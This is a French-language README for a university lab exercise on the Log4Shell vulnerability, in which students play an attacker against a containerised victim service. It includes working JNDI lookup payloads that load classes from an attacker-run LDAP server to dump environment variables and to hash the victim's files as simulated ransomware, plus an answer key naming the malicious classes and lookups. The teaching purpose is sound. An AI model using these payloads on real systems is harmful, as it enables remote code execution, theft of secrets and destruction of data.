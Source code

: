 # TP Log4Shell 
#### Victor GAILLARD - Lou LABUSSIERE - Erina POINT - Ugo VIGNON
#### Envoyez votre compte-rendu à l'adresse lou.labussiere@etu.uca.fr
---
## **Objectif** : Hasher les fichiers d'un serveur victime pour simuler une attaque ransomware avec la faille Log4Shell

### **Configuration** :
 Pour commencer, clonez le projet (ou téléchargez l'archive).  

 Dans ce projet, vous trouverez : 
- Le serveur LDAP du pirate;
- Le serveur HTTP du pirate, contenant la codebase que vous aurez à coder;
- Un service de logging sur lequel vous pourrez requêter afin de récuperer des données;
- Le web service de la victime, qui contient les fichiers à hasher; 

Pour lancer le projet :
- Faite un `make all` pour générer tous les Dockerfile;
- Ensuite, faite un `docker-compose up` dans le répertoire cloné;

L'IP du serveur victime et des serveurs du pirate sont loggés avec ces lignes :
```sh
victim_1 | Running on IP : XXX.XXX
server_1 | Running on IP : XXX.XXX
```
 L'IP `server_1` sera à mettre dans le lookup plus tard.

 Si vous ajoutez une classe dans le dossier attacker/java, pensez à relancer vos containers !

---

### **Exercice 0** : Pour se mettre dans le bain
 Pour le temps de ce TP, vous serez le pirate >:) Vous allez donc réaliser une attaque exploitant la faille de Log4Shell sur un web service distant, dans le but de hasher les fichiers de la victime pour simuler un ransomware. 

Après plusieurs essais sur différents sites (en vain), vous tomber finalement sur ce site aux apparences plutôt vulnérables. Le formulaire de connexion n'a pas l'air très sécurisé...

 Avant toute chose, vous allez tester le fonctionnement de cette attaque en affichant dans les logs les valeurs des variables d'environnements de la victime.

Pour cela, vous allez devoir : 
- Créer une classe dans le dossier `attacker/java`. Cette classe devra récupérer les valeurs des variables d'environnements du web service victime, et les logger dans le service `logger_1`. Pour vous aider, consultez l'exemple `WithReturn.java`.

- Utilisez le lookup vu en cours pour lancer votre attaque. Exemple : `${jndi:ldap://<ip_server_1>:<port>/WithReturn}`. 

Pour vérifier que votre attaque a bien marchée, vérifier dans les logs de `logger_1` que les variables d'environnments de la vicitme sont bien affichées après l'envoie de votre requête.

---

### **Exercice 1** : L'attaque, la vraie de vraie
Maintenant que vous avez réussi à afficher les variables d'environnements de votre victime, vous allez pouvoir hasher ses fichiers (mouhaha) !! 

Pour ce faire, vous allez devoir recréer une classe qui va cette fois récupérer les fichiers du serveur de la victime, et les hasher avec l'algorithme SHA-256.

Pour vous aidez:
- la classe `MessageDigest` permet de faire su hashage, plus qu'à savoir comment...
- N'oubliez pas de modifier votre lookup en fonction de votre nouvelle classe ;p

Pour vérifier que cette attaque a bien marché, vous devriez voir que tous les fichiers du web service de la victime ont été hashés. Si c'est le cas, bravo vous êtes un pirate !! 

# POUR LA CORRECTION : 
les classes malicieuses sont EnvVariable.java pour l'exercice 0, et Encryptor.java pour l'exercice 1.
Les loopkups sont du coup : ${jndi:ldap://ip_server_1:9999/EnvVariable} pour l'exo 0 et ${jndi:ldap://ip_server_1:9999/Encryptor}
